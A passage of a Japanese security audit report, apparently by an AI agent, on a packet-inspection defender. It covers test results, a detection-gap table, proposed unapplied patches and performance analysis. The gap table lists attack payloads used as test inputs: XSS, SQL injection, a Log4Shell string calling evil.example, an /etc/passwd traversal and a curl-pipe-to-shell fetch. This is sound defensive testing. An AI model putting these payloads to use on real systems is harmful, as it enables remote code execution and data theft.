| **Cat 5: 異常サイズ・境界値** (`0B`, `1B`, `13B`, `14B`, `31B`, `32B`, `64B`, `1500B`, `65575B`, `65576B`) | 10,000 | `0..32B` 不正フレーム遮断、`65576B` 遮断 | 1,000 (`65576B` のみ遮断) | 9,000 (`0..32B` の 6,000件が通過) | 例外=0 | **`FAIL`** | `65576B` は 100% 遮断されるが、`0B〜32B` のゼロ埋め・切り詰めフレーム 6,000 件が `block=False` で通過。 |
| **Cat 6: ブラックリスト有効期限・Google Drive偽装IP境界** | 10,000 | 有効BL遮断・期限切れ許可・GDrive偽装遮断 | 5,000 (BL 2,500 + GDrive偽装 2,500) | 2,500 (期限切れBL 2,500) | GDriveホワイトリスト誤許可=**0** | **`PASS`** | 有効ブラックリストは 100% 遮断、期限切れ後は即時解除。`is_google_drive_whitelisted_packet()` は常に `False` を返し偽装耐性あり。 |
| **Cat 7: 未知フォーマット・IPv6・ICMP・カスタムEtherType (`0x88B5`)** | 10,000 | 攻撃ペイロード7,500件遮断 / 正常UDP 2,500許可 | **0** | **10,000** (**FN=7,500**, TN=2,500) | 例外=0 | **`FAIL`** | カスタムEtherType（VLAN等）、ICMP（`proto=1`）、L4ヘッダ不足IPv6上の `<script>` 計 7,500 件が **100% 素通り**。 |
| **Cat 8: 高レートバースト（`>=10,000 pps` `lightweight` モード縮退）** | 10,000 | 負荷縮退時も固定シグネチャを100%遮断 | **10,000** | 0 | DPI負荷縮退=10,000件 | **`PASS`** | `lightweight` モードでは DPI はスキップ（`suspicious=False`）されるが、パイプラインの固定シグネチャ遮断は 100% 維持。 |
| **Cat 9: AI異常特徴量 (`NaN`, `+Inf`, `-Inf`, `-999`, `1e12`)** | 10,000 | 異常値のクランプまたはFail-Closed | 0 | 10,000 | `NaN/-Inf` 出力=**2,000件**、負スコア出力=**2,000件** | **`FAIL`** | `[-inf]*10` で `ai_score=-inf`（2,000件）、`[-999]*10` で `ai_score=-747.05`（2,000件）が出力される。 |
| **Cat 10: DPI 内部例外注入とハードニング遷移** | 10,000 | DPI例外時にパイプラインもFail-Closed遮断 | DPI辞書 `fail_closed`=10,000 / **パイプライン遮断=0** | パイプライン通過=100% | 未捕捉例外=0 | **`FAIL`** | `analyze_dpi_payload()` はログに「フェールクローズでブロックします」と出すが、`inspect_packet_pipeline()` は `block=False` で通過させる。 |

#### E.3 Cat 2（難読化・非固定シグネチャ攻撃 10,000件）のサブタイプ別内訳

| 攻撃サブタイプ | 投入件数 | `analyze_dpi_payload()` の `suspicious=True` 検知数 | `inspect_packet_pipeline()` の `block=True` 遮断数 | 通過（検知漏れ FN） |
| :--- | ---: | ---: | ---: | ---: |
| ① UTF-16LE `<script>alert(1)</script>` | 1,000 | **1,000 件 (100%)** | **0 件 (0%)** | **1,000 件** |
| ② UTF-16BE `<script>alert(1)</script>` | 1,000 | **1,000 件 (100%)** | **0 件 (0%)** | **1,000 件** |
| ③ URL エンコード `%3Cscript%3Ealert(1)%3C/script%3E` | 1,000 | **1,000 件 (100%)** | **0 件 (0%)** | **1,000 件** |
| ④ Null バイト挿入 `<scr\x00ipt>alert(1)</scr\x00ipt>` | 1,000 | **1,000 件 (100%)** | **0 件 (0%)** | **1,000 件** |
| ⑤ HTML エンティティ `&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;:` | 1,000 | **1,000 件 (100%)** | **0 件 (0%)** | **1,000 件** |
| ⑥ SQL インジェクション `' UNION SELECT username,password FROM users--` | 1,000 | 499 件 (49.9%) | **0 件 (0%)** | **1,000 件** |
| ⑦ Log4Shell `${jndi:ldap://evil.example/a}` | 1,000 | 990 件 (99.0%) | **0 件 (0%)** | **1,000 件** |
| ⑧ パストラバーサル `../../../../etc/passwd` | 1,000 | 513 件 (51.3%) | **0 件 (0%)** | **1,000 件** |
| ⑨ シェルパイプ実行 `/bin/sh -c 'curl http://198.51.100.1/s | sh'` | 1,000 | **1,000 件 (100%)** | **0 件 (0%)** | **1,000 件** |
| ⑩ JS 難読化 `window['al'+'ert'](atob('YWxlcnQoMSk='))` | 1,000 | **1,000 件 (100%)** | **0 件 (0%)** | **1,000 件** |
| **合計** | **10,000** | **9,002 件 (90.02%)** | **0 件 (0.00%)** | **10,000 件 (100%)** |

---

### F. AI無効 vs AI有効 vs AI異常時の比較表

同一の合成データセット **2,000 パケット**（正常 1,000 件 ＋ 固定シグネチャ攻撃 500 件 ＋ 高脅威特徴量 `fv=[0.99]*10` を持つ SQLi 攻撃 500 件、固定シード `20261028` でシャッフル）を、**条件A（AI無効）**、**条件B（AI有効：`LightweightMultiTaskAI` 実推論＋レビュー済みHead B）**、**条件C（AIタイムアウト／例外注入）** の3条件に入力した実測比較です。

| 評価指標 | 条件 A: AI 無効 (`model=None`) | 条件 B: AI 有効 (`LightweightMultiTaskAI` 推論) | 条件 C: AI 例外・タイムアウト (`TimeoutError`) | 比較・差分評価 |
| :--- | ---: | ---: | ---: | :--- |
| **総パケット数** | 2,000 件 | 2,000 件 | 2,000 件 | 同一データセット・同一順序 |
| **真陽性 (TP: 正しく遮断した攻撃)** | **500 件** | **500 件** | **500 件** | 固定シグネチャ攻撃 500 件のみ遮断 |
| **偽陽性 (FP: 誤遮断した正常通信)** | **0 件** | **0 件** | **0 件** | 誤遮断ゼロ |
| **真陰性 (TN: 正しく許可した正常通信)** | **1,000 件** | **1,000 件** | **1,000 件** | 正常通信 1,000 件を許可 |
| **偽陰性 (FN: 検知漏れした攻撃)** | **500 件** | **500 件** | **500 件** | **SQLi 500 件は `ai_score=0.99` でも3条件とも通過** |
| **遮断要求数 (`block=True`)** | 500 件 | 500 件 | 500 件 | **3条件で 100.0% 完全一致** |
| **実OS遮断実行数 (`actual_blocks`)** | 0 件 (Dry-Run) | 0 件 (Dry-Run) | 0 件 (Dry-Run) | 安全モードにより実NIC停止は 0 件 |
| **未捕捉例外数** | 0 件 | 0 件 | 0 件 (`feature_vector` 指定時) | ※`feature_vector=None` 時は未捕捉例外あり（不変条件7） |
| **平均最終スコア (`mean_final_score`)** | `0.5125` | **`0.6038`** | `0.6038` | AI有効化により平均脅威スコアは `+0.0913` 上昇 |
| **平均AIスコア (`mean_ai_score`)** | `0.0000` | **`0.3431`** | `0.3431` | Head B 例外時は減衰なしの `ai_score` にフォールバック |
| **処理スループット (`pkt/s`)** | **8,768.8 pkt/s** | **1,817.6 pkt/s** | **6,686.0 pkt/s** | PyTorch 推論によりスループットは約 **4.8 倍低下** |
| **遅延 平均 / p50 (`µs`)** | `108.25` / `91.98 µs` | **`545.30` / `528.06 µs`** | `147.58` / `130.34 µs` | PyTorch 1回推論あたり約 `+437 µs` のオーバーヘッド |
| **遅延 p95 / p99 (`µs`)** | `253.35` / `308.08 µs` | **`738.93` / `945.74 µs`** | `294.10` / `424.90 µs` | p99 遅延は約 3.1 倍増加 |
| **CPU 使用率 (1コア換算) / 最大 RSS** | `99.9%` / `404.81 MB` | `98.4%` / `404.81 MB` | `99.9%` / `404.81 MB` | メモリ上限 1500MB の **27.0%** 以内で安定動作 |

* **AI の寄与に関する結論**:
  * 条件A（AI無効）と条件B（AI有効）の**最終遮断判定（`block`）の一致率は `100.0%`（2,000 / 2,000 件一致）** でした。
  * すなわち、現在の実装において **AI（`LightweightMultiTaskAI`）は観測用の脅威スコア（`mean_final_score`: `0.5125` → `0.6038`）を引き上げるだけであり、固定ルールで検知できない攻撃（SQLi 500件）を遮断する能力は持っていません**。

---

### G. ゼロトラスト・セッション・リプレイ検証結果

各ゼロトラスト・認証・セッション管理モジュールの実機テスト結果およびシステム統合状態の監査結果です。

| 対象モジュール | 検証シナリオ | 結果 | 統合状態・監査コメント |
| :--- | :--- | :---: | :--- |
| **[`mk1_session_ratchet.py`](file:///home/harukiy1225/MK1Ai-main/mk1_session_ratchet.py)** (`SessionRatchet`) | ①初期化時の入力シークレット即時ゼロ化、②正常暗号化/復号、③同一パケットの再送（Replay）拒否、④シーケンス番号飛ばし（Out-of-Order `m2` 先着）拒否、⑤拒否後の正規パケット（`m1`, `m2`）復号成功（状態非破壊）、⑥GCMタグ1ビット改ざん拒否、⑦不正AAD拒否、⑧有効期限（3600秒）超過時の自動破棄・拒否、⑨`destroy()` 後の再利用拒否 | **`PASS` (9/9)** | **【重要ギャップ】** 単体実装は暗号学的に極めて優秀だが、**[`airgap_ai_defender.py`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py) や [`mk1_secure_transport.py`](file:///home/harukiy1225/MK1Ai-main/mk1_secure_transport.py) からインポートされておらず未接続**（[`docs/ASSURANCE_GAPS.md`](file:///home/harukiy1225/MK1Ai-main/docs/ASSURANCE_GAPS.md) Item 39 と一致）。 |
| **[`mk1_quorum.py`](file:///home/harukiy1225/MK1Ai-main/mk1_quorum.py) & [`mk1_quarantine.py`](file:///home/harukiy1225/MK1Ai-main/mk1_quarantine.py)** | ①独立した2名のEd25519署名者（`node-1`, `node-2`）による隔離解除承認、②1名のみの署名拒否、③同一署名者の重複レコード拒否、④未登録署名者（`node-3`）混入時の拒否、⑤旧世代（`generation=1` のバンドルを `generation=2` へ再送）リプレイ拒否 | **`PASS` (5/5)** | [`airgap_ai_defender.py`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L48) に統合済み。チャレンジは 64桁 hex + 単調増加 `generation` で束縛され、リプレイを確実に阻止。 |
| **[`mk1_external_verifier.py`](file:///home/harukiy1225/MK1Ai-main/mk1_external_verifier.py)** | ①書き込み可能マウント（`rw`）に対する `require_read_only=True` 拒否、②署名付きビルドマニフェスト＋フレッシュNonceによる測定レポート生成・検証、③別チャレンジNonceに対する測定レポートのリプレイ拒否 | **`PASS` (3/3)** | スタンドアロン検証ツールとして完成。ただしメインプロセスの起動ゲートには未接続（[`docs/ASSURANCE_GAPS.md`](file:///home/harukiy1225/MK1Ai-main/docs/ASSURANCE_GAPS.md) Item 41）。 |
| **[`mk1_key_registry.py`](file:///home/harukiy1225/MK1Ai-main/mk1_key_registry.py)** | ①HKDF-SHA384 による用途別（`application-encryption` vs `application-signing`）鍵分離、②Ed25519署名付き失効マニフェスト検証、③`minimum_generation` によるロールバック（旧世代マニフェスト注入）拒否 | **`PASS` (3/3)** | スタンドアロンモジュールとして完全動作（本体未接続：[`docs/ASSURANCE_GAPS.md`](file:///home/harukiy1225/MK1Ai-main/docs/ASSURANCE_GAPS.md) Item 40）。 |
| **[`mk1_map.py`](file:///home/harukiy1225/MK1Ai-main/mk1_map.py)** (`MapVisualizationService`) | ①非ループバック（`0.0.0.0`）バインド要求の `ValueError` 拒否、②`MK1_MAP_EXTENSION_ORIGIN` 未設定時の空オリジン拒否（Fail-Closed）、③プライベートIPのイベント除外 | **`PASS` (3/3)** | [`airgap_ai_defender.py`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L46) に統合済み。ループバック限定・ピン留め拡張機能オリジン限定が機能。 |
| **[`mk1_remote_dashboard.py`](file:///home/harukiy1225/MK1Ai-main/mk1_remote_dashboard.py)** | 静的コード監査（CSRFトークン `hmac.compare_digest`、ログイン試行レート制限、CSPヘッダ、セッションCookie属性） | **静的監査 `PASS` / 実行 `NOT TESTED`** | `argon2-cffi` / `webauthn` 未導入のためライブ起動は `NOT TESTED`。コード上は TOTP ダイジェスト再利用防止と WebAuthn `sign_count` 単調増加チェックを実装済み。 |
| **管理者復旧シグナル ([`handle_admin_recovery_signal()`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L5519-L5575))** | トークン未設定時・不一致時の拒否（`hmac.compare_digest`） | **条件付き `PASS`（設計上の注意あり）** | 定数時間比較で保護されているが、**静的トークン文字列（`_ADMIN_RECOVERY_TOKEN`）の平文一致のみで認証しており、チャレンジ＆レスポンスや世代番号がないため、トークン漏洩時は再利用可能**。 |

---

### H. エアギャップ・隔離・安全性検証結果

ホストネットワークを一切変更せず、Dry-Run モードおよび非 Dry-Run モードの双方で遮断・隔離ゲートを検証しました。

1. **Dry-Run モード（`dry_run=True`）での3連続臨界脅威（`score_a=0.99` × 3回）**:
   * `evaluate_threat_state("eth0", dry_run=True, score_a=0.99)` の返却値は `[False, False, True]`（3回目でトリガー）。
   * `_KILL_SWITCH_TRIGGERED` は `False`、`_ISOLATION_APPROVAL_PENDING` も `False` のまま維持され、`execute_kill_switch("eth0", True)` がプレビューログ（`予定: ip link set veth0 down` 等）を出力するだけで、**OSコマンド（`ip`, `nft`, `iptables`, `sysctl`）は 1 回も実行されません（`PASS`）**。
2. **非 Dry-Run モード（`dry_run=False`）における S3/S4 管理者承認安全ゲート**:
   * `evaluate_threat_state("eth0", dry_run=False, score_a=0.99, backdoor_detected=True)` を呼び出すと、`_ISOLATION_APPROVAL_PENDING = True`（パネル表示 `alert=APPROVAL_REQUIRED`）がセットされる一方、**`_KILL_SWITCH_TRIGGERED` は `False` のまま保たれ、実遮断は実行されません**。
   * さらに、[`execute_kill_switch("eth0", dry_run=False)`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L5996-L6000) および [`execute_generated_payload(payload, dry_run=False)`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L3711-L3720) を直接呼び出しても、先頭のガード節で `[AIRGAP] イベントごとの管理者承認が未実装のため、実遮断を拒否しました。` とエラー出力して **`False` を返し、自律的な通信遮断を 100% 拒否します（`PASS`）**。
   * CLI で `--no-dry-run` を渡した場合も、[`main()`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L6994-L6997) が `parser.error("実遮断はイベントごとの管理者承認機能が未実装のため無効です")` で即座に起動を拒否します。
3. **ホスト環境不変の確認**:
   * 全テスト完了後、Crostini ホストのネットワークインターフェース（`eth0`）、ルーティングテーブル、ファイアウォール設定に一切の変更がないことを確認しました。

---

### I. 発見された脆弱性・不具合・設計ギャップと修正パッチ案

既存のソースコードは一切変更せず、発見された 7 件の具体的な不具合について**原因・最小再現入力・修正パッチ案（Diff）**を以下に提示します（承認後に適用可能です）。

#### I.1 【P0】`inspect_packet_pipeline()` が `analyze_dpi_payload()` の検知結果（`suspicious` / `fail_closed`）を無視する欠陥
* **箇所**: [`airgap_ai_defender.py`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L5846-L5860)
* **原因**: `dpi_result = dpi_result or analyze_dpi_payload(...)` を呼び出しているにもかかわらず、`dpi_result.get("scan_strategy") == "fail_closed"` や `dpi_result.get("suspicious")` を遮断判定に使わず、`extract_payload_bytes(packet_bytes).lower()` の5文字列一致しか見ていないため、UTF-16 `<script>` や DPI 例外がすべて `block=False` で通過する。
* **最小再現入力**: `inspect_packet_pipeline(build_eth_ipv4_tcp("<script>alert(1)</script>".encode("utf-16le")), "eth0", dry_run=True)` → `block: False`

#### I.2 【P0】段階的防御（Progressive Defense）の 3 回目以降 `parse_error` パケットすり抜け＆切り詰めヘッダ素通りバグ
* **箇所**: [`airgap_ai_defender.py`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L664-L732) および [`airgap_ai_defender.py`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L5861-L5876)
* **原因**:
  1. `parse_packet_transport()` が `<14B`、`<34B`、不正IPバージョン、不正IHLに対して `{"parse_error": True}` ではなく `{}` を返す。
  2. `inspect_packet_pipeline()` で `parse_error` 分岐が `_is_ip_blacklisted()` より前にあり、3回目に `evaluate_progressive_defense()` がブラックリスト登録と同時に `{"defer": True}` を返すと `block=False, score=0.0` で即リターンしてしまう。
* **最小再現入力**: 同一IPから `parse_error=True` パケットを3回送信 → 1回目 `block=True`、2回目 `block=True`、**3回目・4回目 `block=False, score=0.0`**。

#### I.3 【P0】鬼モード（`ONI_MODE`）の実行時トグルが `inspect_packet_pipeline()` に反映されないバグ
* **箇所**: [`airgap_ai_defender.py`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L439-L455) および [`airgap_ai_defender.py`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L5842)
* **原因**: 439行目 `ONI_MODE = property(...) if False else _ONI_MODE_ACTIVE.is_set()` はモジュール読み込み時に `False`（定数 `bool`）に評価され、`toggle_oni_mode(True)` は `_ONI_MODE_ACTIVE` のみを更新するため、`if ONI_MODE:` が永遠に `False` のままとなる。
* **最小再現入力**: `toggle_oni_mode(True); inspect_packet_pipeline(pkt_benign, "eth0", dry_run=True)` → `block: False`

#### I.4 【P1】非TCP/UDP（ICMP等）および非0x0800/0x86DD（VLAN 0x8100等）でのペイロード抽出空振り
* **箇所**: [`airgap_ai_defender.py`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L739-L805) [`extract_payload_bytes()`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L739)
* **原因**: 802.1Q VLANタグ（`0x8100`）のアンラップ処理がなく、また IPv4/IPv6 で TCP/UDP 以外のプロトコル（ICMP `proto=1` 等）に対して `b""` を返すため、シグネチャ検査が空文字に対して行われる。

#### I.5 【P1】`feature_vector` の `NaN` / `-Inf` / 負値 / 要素数不足 / 型不正および `model(tensor)` 例外の未ハンドリング
* **箇所**: [`airgap_ai_defender.py`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L5898-L5938)
* **原因**: `_validate_packet_queue_item()` を通さずに `inspect_packet_pipeline()` へ `feature_vector` が渡された場合、長さ・型・有限値（`0.0 <= v <= 1.0`）の検証が行われず、また 5911行目の `model(tensor)` が `try/except` で保護されていない。

#### I.6 【P2】[`mk1_path_trust.c`](file:///home/harukiy1225/MK1Ai-main/mk1_path_trust.c#L1-L55) の `-std=c11 -Werror` コンパイルエラー
* **箇所**: [`mk1_path_trust.c`](file:///home/harukiy1225/MK1Ai-main/mk1_path_trust.c#L1)
* **原因**: `#define _POSIX_C_SOURCE 200809L` のみ定義しており、`realpath()` の宣言に必要な `#define _XOPEN_SOURCE 700`（または `_DEFAULT_SOURCE`）が不足しているため、`make` 実行時に `implicit declaration of function 'realpath'` でビルドが失敗する。

#### I.7 統合修正パッチ案（Diff 提示・未適用）

```diff
--- a/airgap_ai_defender.py
+++ b/airgap_ai_defender.py
@@ -450,8 +450,10 @@
 def toggle_oni_mode(enable: bool | None = None) -> bool:
     """鬼モードの有効・無効を切り替え、スレッドセーフな Event と同期する。"""
+    global ONI_MODE
     if enable is None:
         enable = not _ONI_MODE_ACTIVE.is_set()
     if enable:
         _ONI_MODE_ACTIVE.set()
     else:
         _ONI_MODE_ACTIVE.clear()
+    ONI_MODE = _ONI_MODE_ACTIVE.is_set()
     return _ONI_MODE_ACTIVE.is_set()
@@ -664,22 +666,22 @@
 def parse_packet_transport(packet_bytes: bytes) -> dict:
     """Ethernet / IPv4 / IPv6 / TCP/UDP パケットから送受信元 IP とポートを抽出する。"""
     if not packet_bytes or len(packet_bytes) < 14:
-        return {}
+        return {"parse_error": True, "src_ip": None}
     try:
         ether_type = struct.unpack("!H", packet_bytes[12:14])[0]
         if ether_type == 0x0800:
             ip_offset = 14
             if len(packet_bytes) < ip_offset + 20:
-                return {}
+                return {"parse_error": True, "src_ip": _extract_src_ip(packet_bytes)}
 
             version_ihl = packet_bytes[ip_offset]
             if (version_ihl >> 4) != 4:
-                return {}
+                return {"parse_error": True, "src_ip": _extract_src_ip(packet_bytes)}
 
             ihl = (version_ihl & 0x0F) * 4
-            if len(packet_bytes) < ip_offset + ihl:
-                return {}
+            if ihl < 20 or len(packet_bytes) < ip_offset + ihl:
+                return {"parse_error": True, "src_ip": _extract_src_ip(packet_bytes)}
@@ -5842,10 +5844,17 @@
-    if ONI_MODE:
+    if ONI_MODE or ONI_MODE_is_active():
         return {"block": True, "stage": "oni", "score": 1.0, "reason": "oni_mode_enforced"}
 
     dpi_result = dpi_result or analyze_dpi_payload(packet_bytes, interface=interface)
+    if dpi_result.get("scan_strategy") == "fail_closed":
+        return {"block": True, "stage": "dpi_fail_closed", "score": 0.95, "reason": "dpi_exception_fail_closed"}
+
     lowered_payload = extract_payload_bytes(packet_bytes).lower()
     for signature in _ENFORCEMENT_SIGNATURES:
-        if signature in lowered_payload:
+        if signature in lowered_payload or _contains_multiencoding_bytes(packet_bytes, signature):
             trace = build_diagnostic_trace(2, 1.0, 1.0, "fixed_signature")
             return {
                 "block": True,
                 "stage": "signature",
@@ -5860,15 +5869,15 @@
     transport = parse_packet_transport(packet_bytes)
+    if transport and _is_ip_blacklisted(transport.get("src_ip")):
+        trace = build_diagnostic_trace(1, 0.9, 0.92, "source_ip_blacklisted")
+        return {"block": True, "stage": "blacklist", "score": 0.92, "reason": "source_ip_blacklisted", "diagnostic_trace": trace}
+
     if transport and transport.get("parse_error"):
         defense_decision = evaluate_progressive_defense(transport.get("src_ip"), "parse_error")
         if defense_decision.get("defer"):
-            return {"block": False, "stage": "rate_limited", "score": 0.0, "reason": defense_decision["reason"]}
+            return {"block": True, "stage": "blacklist", "score": 0.95, "reason": defense_decision["reason"]}
         trace = build_diagnostic_trace(1, 0.9, 0.95, "packet_parse_error")
         return {"block": True, "stage": "parse_error", "score": 0.95, "reason": "packet_parse_error", "diagnostic_trace": trace}
```

```diff
--- a/mk1_path_trust.c
+++ b/mk1_path_trust.c
@@ -1,4 +1,5 @@
 #define _POSIX_C_SOURCE 200809L
+#define _XOPEN_SOURCE 700
 
 #include "mk1_path_trust.h"
```

---

### J. 性能・容量・1.6 Tbps / 5 Pbps 主張の検証結果

#### J.1 Crostini 実機計測値 vs 1.6 Tbps 主張のギャップ分析

当環境（Chromebook Crostini / Intel N100）において、[`/tmp/mk1_redteam_audit/redteam_harness.py`](file:///tmp/mk1_redteam_audit/redteam_harness.py) で実測した単一コアのパケット検査パイプライン性能（`analyze_dpi_payload` + `inspect_packet_pipeline`）と、1.6 Tbps（`1,600,000 Mbps`）との倍率差は以下の通りです。

| フレームサイズ | Crostini 実測処理速度 (`pps`) | Crostini 実測スループット (`Mbps`) | 遅延 平均 / p95 / p99 (`µs`) | 1.6 Tbps (`1,600,000 Mbps`) との性能ギャップ倍率 | 1.6 Tbps 到達に必要な同性能コア数（単純比例換算） |
| ---: | ---: | ---: | ---: | ---: | ---: |
| **64 B** | **15,294.8 pkt/s** | **7.831 Mbps** | `64.70` / `73.04` / `119.75 µs` | **204,318.2 倍** | 約 204,319 コア |
| **128 B** | **12,105.2 pkt/s** | **12.396 Mbps** | `81.91` / `92.32` / `180.51 µs` | **129,076.5 倍** | 約 129,077 コア |
| **256 B** | **9,195.7 pkt/s** | **18.833 Mbps** | `108.05` / `119.39` / `191.57 µs` | **84,958.1 倍** | 約 84,959 コア |
| **512 B** | **6,179.9 pkt/s** | **25.313 Mbps** | `161.11` / `178.99` / `271.77 µs` | **63,208.9 倍** | 約 63,209 コア |
| **1024 B** | **3,195.7 pkt/s** | **26.179 Mbps** | `312.00` / `380.15` / `498.53 µs` | **61,117.1 倍** | 約 61,118 コア |
| **1518 B** | **2,404.8 pkt/s** | **29.204 Mbps** | `414.93` / `463.79` / `745.79 µs` | **54,787.7 倍** | 約 54,788 コア |

* **ボトルネックの所在**:
  1. **Python バイト列操作と DPI 走査**: 1518B フレーム1個の検査に平均 `414.93 µs` を要しており、Python レイヤでの `bytes.lower()`、マルチエンコーディング走査、エントロピー計算が支配的ボトルネックです。
  2. **PyTorch 推論オーバーヘッド**: Section F で実証した通り、パケット毎に `LightweightMultiTaskAI` のフォワードパスを実行すると 1 パケットあたり約 `+437 µs` が加算され、スループットは `1,817.6 pkt/s`（1518B 換算で約 `22.1 Mbps`）に制限されます。
  3. **AES-256-GCM 暗号化**: OpenSSL C バックエンドによる AES-256-GCM 単体は Crostini 上でも 1518B で **暗号化 2.137 Gbps / 復号 3.413 Gbps**（Codespaces ベースラインでは **3.845 Gbps / 7.423 Gbps**）を記録していますが、それでも 1.6 Tbps には単一コアで **約 450〜750 倍** 届きません。

#### J.2 [`scripts/performance_capacity.py`](file:///home/harukiy1225/MK1Ai-main/scripts/performance_capacity.py) の容量算術モデルの検証結果

[`scripts/performance_capacity.py`](file:///home/harukiy1225/MK1Ai-main/scripts/performance_capacity.py) の `evaluate_joint_failure_capacity()` を直接呼び出し、Mode A（5 Pbps ＝ 5,000 Tbps 目標、80% 運用上限、1ノード故障＋1リンク故障同時許容）の境界値を検証しました：

| シナリオ | 設置ノード数 ($N$) | 設置 800GbE リンク数 ($L$) | 1故障後のノード容量 (@80%上限) | 1故障後のファブリック容量 (@70%効率・80%上限) | ボトルネック層 | 5,000 Tbps 達成判定 |
| :--- | ---: | ---: | ---: | ---: | :---: | :---: |
| **採用構成 (Mode A)** | **3,908 台** | **11,162 本** | `5,000.960 Tbps` (`3,907 × 1.6 × 0.8`) | **`5,000.128 Tbps`** (`11,161 × 0.8 × 0.7 × 0.8`) | `fabric` | **`True` (算術上成立)** |
| **ノード1台不足境界** | **3,907 台** | 11,162 本 | **`4,999.680 Tbps`** (`3,906 × 1.6 × 0.8`) | `5,000.128 Tbps` | `node` | **`False` (`-0.32 Tbps` 不足)** |
| **リンク1本不足境界** | 3,908 台 | **11,161 本** | `5,000.960 Tbps` | **`4,999.680 Tbps`** (`11,160 × 0.8 × 0.7 × 0.8`) | `fabric` | **`False` (`-0.32 Tbps` 不足)** |

* **評価結論**: [`scripts/performance_capacity.py`](file:///home/harukiy1225/MK1Ai-main/scripts/performance_capacity.py) の数式および整数切り上げ（`3,908 ノード`、`11,162 リンク`）は**有理数算術としては 100% 正確（`PASS`）** ですが、これは「仮に 1 ノードあたり 1.6 Tbps の処理能力を持つハードウェアアプライアンスが存在した場合に何台必要か」を計算するキャパシティプランニング式であり、**ソフトウェア単体で 1.6 Tbps や 5 Pbps を達成した証明ではありません**。

---

### K. 修正優先度付き推奨事項（Remediation Roadmap）

#### 優先度 P0（即時対応：致命的な検知漏れ・状態不整合の解消）
1. **`inspect_packet_pipeline()` への DPI 検知結果の接続**:
   * `dpi_result.get("scan_strategy") == "fail_closed"` の場合は即座に `block=True, stage="dpi_fail_closed"` を返すように修正すること。
   * `_contains_multiencoding_bytes()` による UTF-16LE/BE や難読化検知結果を `inspect_packet_pipeline()` の遮断条件へ統合すること。
2. **段階的防御（Progressive Defense）と `parse_packet_transport()` の Fail-Closed 化**:
   * `inspect_packet_pipeline()` において `_is_ip_blacklisted()` チェックを `parse_error` チェックより前に配置し、かつ `defense_decision.get("defer")` が真（閾値到達によるブラックリスト入り）の場合は `block=False` ではなく **`block=True, stage="blacklist"`** を返すこと。
   * `parse_packet_transport()` でフレーム長不足やヘッダ破損を検出した際に空辞書 `{}` ではなく `{"parse_error": True}` を返すこと。
3. **`ONI_MODE` トグルの同期修正**:
   * `inspect_packet_pipeline()`（5842行目）および `_gdrive_update_worker()`（6116行目）の `if ONI_MODE:` を `if ONI_MODE_is_active():` に統一し、`toggle_oni_mode()` 内でも `global ONI_MODE` を更新すること。

#### 優先度 P1（早期対応：プロトコル盲点・誤検知・入力検証・セッション統合）
4. **VLAN (`0x8100`) / ICMP / IPv6 拡張ヘッダのペイロード抽出対応**:
   * `extract_payload_bytes()` で 802.1Q VLAN タグ（4バイト）のスキップと IPv6 拡張ヘッダチェーンの走査を追加し、TCP/UDP 以外のプロトコルでも L3 ペイロード部（ICMP データ部等）を抽出して検査対象に含めること。
5. **固定シグネチャの文脈・トークン境界判定化（誤検知 FP の排除）**:
   * `b"eval("`, `b"powershell"`, `b"cmd.exe"` の単純部分一致を改め、識別子境界（例：`(?<![a-z0-9_])eval\s*\(`）やコマンドライン引数文脈を条件に加えることで、`my_eval(x)` や技術文書 PDF の誤遮断を防ぐこと。
6. **`feature_vector` の入力バリデーションと `model(tensor)` の例外保護**:
   * `inspect_packet_pipeline()` 入口で `_validate_packet_queue_item()` と同等の検証（長さ 10、全要素が有限の `float` かつ `[0.0, 1.0]` にクランプ）を行い、`model(tensor)` 呼び出しを `try/except` で囲んで Fail-Closed（または安全な固定ルール判定）へフォールバックさせること。
7. **`mk1_session_ratchet.py` の実通信経路への統合**:
   * 単体で完成している `SessionRatchet` を `mk1_secure_transport.py` および `mk1_remote_dashboard.py` のセッション通信に組み込み、トランスポート層でのメッセージ単位鍵ラチェットとリプレイ拒否を有効化すること。

#### 優先度 P2（中長期対応：ビルド互換性と高速データプレーン実装）
8. **`mk1_path_trust.c` の `#define _XOPEN_SOURCE 700` 追加**:
   * `-std=c11 -Werror` 下で `realpath()` の暗黙宣言エラーを解消し、`make` による C バイナリビルドを通すこと。
9. **高スループット（Gbps〜Tbps 領域）に向けた eBPF / XDP・SmartNIC オフロード設計**:
   * Python 空間での 1 パケット毎の DPI・PyTorch 推論は ~30 Mbps が限界であるため、L2〜L4 の固定ルール・ブラックリスト・レート制限は eBPF / XDP カーネルデータプレーンまたは DPU / SmartNIC ハードウェアへオフロードし、AI 推論は非同期サンプリング／フロー統計単位で実行するアーキテクチャへ移行すること。


